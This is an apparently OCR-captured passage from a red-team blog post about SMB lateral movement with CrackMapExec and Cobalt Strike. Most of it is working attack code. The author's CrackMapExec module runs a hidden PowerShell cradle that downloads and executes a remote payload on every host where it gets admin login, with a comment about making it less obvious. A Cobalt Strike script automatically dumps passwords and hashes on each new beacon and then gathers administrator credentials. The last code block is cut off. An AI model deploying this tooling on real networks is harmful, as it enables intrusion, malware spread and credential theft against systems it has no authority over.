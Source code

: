 

## Tools


### Crackmapexec


Crackmapexec is my preferred tool for SMB lateral movement. In this blog ill also be using a module called 'cobaltloadps' this is a simple module I wrote to aid in the spreading of cobalt over smb :
```python
class CMEModule:
name = 'cobaltloadps'
description = "load onto cobalt strike"
supported_protocols = ['smb']
opsec_safe = True
multiple_hosts = True


defoptions(self,context,module_options):


self.username =None
if'URL'in module_options:
self.URL= module_options['URL']


else:
context.log.error("URL is needed -o URL=")
exit(1)


defon_admin_login(self,context,connection):
connection.ps_execute(f"powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('{self.URL}'))\"") #make less obvs
context.log.success('Executed payload')
```


### CobaltStrike


For the C2 I'll be using cobaltstrike because its sick. My cobaltstrike has a custom CNA script that on connection attempts to do `logonpasswords` and `hashdump` and also adds a command to make admin credentials green this looks something like:
```ruby
on beacon_initial {
binput($1, "logonpasswords");
binput($1, "hashdump");
bhashdump($1);
blogonpasswords($1);
}



command admincreds {
local('@creds');


# find all of our creds that are user Administrator.
foreach $entry (credentials()) {
if ($entry['user'] eq "Administrator") {
push(@creds, $entry);
}
}

```